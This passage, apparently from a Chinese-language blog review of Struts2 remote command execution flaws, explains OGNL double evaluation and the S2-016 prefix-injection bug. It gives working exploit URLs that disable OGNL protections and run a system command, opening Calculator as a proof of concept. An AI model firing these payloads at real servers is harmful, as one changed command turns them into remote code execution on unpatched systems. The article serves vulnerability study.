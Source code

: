 这里配置了 `<param name="errorMessage">${message}</param>`，其中 `message` 为 `ParamAction` 中的一个私有变量，这样配置会导致触发该 Result 时，Struts2 会从请求参数中获取 `message` 的值，并在解析过程中，触发了 OGNL 表达式执行，因此只用提交 `%{1111*2}` 作为其变量值提交就会得到执行。这里需要注意的是这里的二次解析是因为在 `struts.xml` 中使用 `${param}` 引用了 Action 中的变量所导致的，并不针对于 `type="httpheader"` 这种返回方式。

![](/images/articles/2016-05-06-review-struts2-remote-command-execution-vulnerabilities/9.png)

### S2-016

> 官方链接：[https://struts.apache.org/docs/s2-016.html](https://struts.apache.org/docs/s2-016.html)
> 
> 影响版本：Struts 2.0.0 - Struts 2.3.15
> 
> 修复摘要：删除 "action:"，"redirect:"，"redirectAction:" 这些前置前缀调用

`DefaultActionMapper` 类支持以 `action:`，`redirect:` 和 `redirectAction:` 作为访问前缀，前缀后面可以跟 OGNL 表达式，由于 Struts2 未对其进行过滤，导致任意 Action 可以使用这些前缀执行任意 OGNL 表达式，从而导致任意命令执行，经测试发现 `redirect:` 和 `redirectAction:` 这两个前缀比较好容易构造出命令执行的 Payload（转义后）：

```
    http://localhost:8080/S2-016/default.action?redirect:${%23context['xwork.MethodAccessor.denyMethodExecution']%3Dfalse,%23f%3D%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),@java.lang.Runtime@getRuntime().exec('open%20%2fApplications%2fCalculator.app')}
    
    或者
    
    http://localhost:8080/S2-016/default.action?redirectAction:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'open','/Applications/Calculator.app'})).start()}
```
